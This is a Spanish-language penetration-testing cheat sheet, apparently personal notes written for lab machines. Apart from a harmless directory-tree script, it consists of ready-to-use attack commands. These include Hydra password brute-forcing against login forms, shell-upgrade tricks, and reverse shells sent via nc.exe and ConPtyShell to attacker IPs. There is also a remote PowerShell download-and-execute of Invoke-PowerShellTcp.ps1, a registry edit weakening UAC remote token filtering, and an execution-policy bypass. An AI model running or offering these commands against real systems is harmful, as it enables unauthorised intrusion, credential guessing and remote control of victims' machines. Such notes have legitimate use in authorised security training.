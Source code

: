 # General

## Utilidades

### Linux

#### tree.sh

```bash
#!/bin/bash
pwd=$(pwd)
echo Tree of: $pwd
find $pwd -print | sed -e "s;$pwd;\.;g;s;[^/]*\/;|__;g;s;__|; |;g"
#very simple script. REALLY!
echo '|__end tree'
```

## Herramientas

### Hydra

```bash
hydra -l <USER> -p <PASSWORD> <IP_ADDRESS> http-post-form "<LOGIN_PAGE>:<REQUEST_BODY>:<ERROR_MESSAGE>"
```

##### JSON Payload

```bash
hydra -l "root@dasith.works" -P "/usr/share/wordlists/rockyou.txt" -s 3000 10.129.244.81 http-post-form "/api/user/login:{\"email\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:S=Password is wrong:H=content-type: application/json"
```

## TTY

### Linux

```text
ctrl + z
echo $TERM && tput lines && tput cols

# bash
stty raw -echo
fg

# zsh
stty raw -echo; fg

reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```

socat:

```bash
socat file:`tty`,raw,echo=0 tcp-listen:1234
```

Intérprete:

```text
/usr/bin/script -qc /bin/bash /dev/null
/bin/sh -i
python3 -c 'import pty; pty.spawn("/bin/sh")'
python3 -c "__import__('pty').spawn('/bin/bash')"
python3 -c "__import__('subprocess').call(['/bin/bash'])"
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
perl -e 'print `/bin/bash`'
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')

# vi
:!bash
:set shell=/bin/bash:shell

# nmap
!sh

# mysql
! bash
```

### Windows

[ConPtyShell](https://github.com/antonioCoco/ConPtyShell)

Server:

```bash
# 1
rlwrap nc -lvnp 3001

# 2
stty raw -echo; (stty size; cat) | nc -lvnp 3001
```

Cliente:

```powershell
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.2 3001
```

# Proxy debugging

TODO: Agregar comandos de shellhacks.com para redireccionar todo el tráfico de la consola a burpsuite

# Windows

## Crackmapexec `(Pwn3d!)`

`cmd.exe /c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f`

## Powershell

### Bypass de execution policy

```powershell
powerShell.exe -ExecutionPolicy Bypass .\script.ps1
```

Refs: https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/

### Invoke command providing credentials

```powershell
$userName = 'WORKGROUP\Hector'
$userPassword = 'l33th4x0rhector'
$secStringPassword = ConvertTo-SecureString $userPassword -AsPlainText -Force
$credObject = New-Object System.Management.Automation.PSCredential ($userName, $secStringPassword)
# ComputerName obtenida de los comandos: 
hostname
$env:COMPUTERNAME
[Environment]::MachineName

Invoke-Command -ComputerName Fidelity -Credential $credObject -ScriptBlock {C:\Windows\Temp\nc.exe -e cmd.exe 10.10.14.16 4321}

Start-Process -FilePath 'powershell' -argumentlist "IEX(New-Object Net.webClient).downloadString('http://10.10.14.16/Invoke-PowerShellTcp.ps1')" -Credential $credObject
```